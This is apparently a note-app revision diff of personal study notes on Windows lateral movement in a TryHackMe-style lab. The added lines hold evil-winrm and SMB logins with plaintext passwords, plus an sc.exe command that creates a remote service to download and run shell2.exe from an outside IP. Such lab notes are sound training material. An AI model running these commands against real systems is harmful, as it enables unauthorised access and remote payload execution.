 id: 946eeb9947224d6f8af56131b9571d3f
parent_id: e7d24bbb1a4e4c0885552bb3095cc1e8
item_type: 1
item_id: 2746679238ae490999cfd0e1384c3390
item_updated_time: 1657619471381
title_diff: "[{\"diffs\":[[0,\" machine\"],[1,\" by processes\"]],\"start1\":19,\"start2\":19,\"length1\":8,\"length2\":21}]"
body_diff: "[{\"diffs\":[[0,\"oami}`\\\n\\\n\"],[1,\"### `For Simplicity of testing connection and getting a shell, we can just use Evil-winRM`\\\n\\\n> evil-winrm -i &lt;host&gt; -u administrator -p badminton\\\n\\\n\"],[0,\"# Remote\"]],\"start1\":915,\"start2\":915,\"length1\":16,\"length2\":168},{\"diffs\":[[0,\"chine`\\\n\\\n\"],[1,\"> \"],[0,\"`sc.exe \"]],\"start1\":1413,\"start2\":1413,\"length1\":16,\"length2\":18},{\"diffs\":[[0,\"rt= auto\"],[-1,\" \"],[1,\"`\\\n> \\\n> `\"],[0,\"sc.exe \\\\\"]],\"start1\":1500,\"start2\":1500,\"length1\":17,\"length2\":24},{\"diffs\":[[0,\"windows \"],[-1,\" \"],[0,\"-f exe-s\"]],\"start1\":1696,\"start2\":1696,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\" -W ZA '\"],[1,\"\\\\[[\"],[0,\"//thmiis\"]],\"start1\":1902,\"start2\":1902,\"length1\":16,\"length2\":19},{\"diffs\":[[0,\"dmin\"],[-1,\"$/' EZpass4ever\\\n\\\nThen we make the service\"],[1,\"](//thmiis.za.tryhackme.com/admin)$/](//thmiis.za.tryhackme.com/admin$/)' EZpass4ever\\\n> \\\n> \\\\# For webdownload, use the service method\\\n> \\\n> `sc.exe \\\\\\\\TARGET create downloadservice binPath= \\\" powershell -nop -c \\\\\\\"(New-Object System.Net.WebClient).DownloadFile('[http://192.168.119.160/shell2.exe','shell2.exe](http://192.168.119.160/shell2.exe%27,%27shell2.exe \\\"http://192.168.119.160/shell2.exe','shell2.exe\\\")')\\\\\\\" \\\" start= auto`\\\n> \\\n> `sc.exe \\\\\\\\TARGET start downloadservice`\\\n\\\nThen we make the service\\\n\\\n> sc.exe \\\\\\\\\\\\thmiis.za.tryhackme.com create THMservice-3249 binPath= \\\"%windir%\\\\\\\\myservice.exe\\\" start= auto\"],[0,\"\\\n\\\n# \"]],\"start1\":1940,\"start2\":1940,\"length1\":49,\"length2\":613}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T09:53:19.334Z
created_time: 2022-07-12T09:53:19.334Z
type_: 13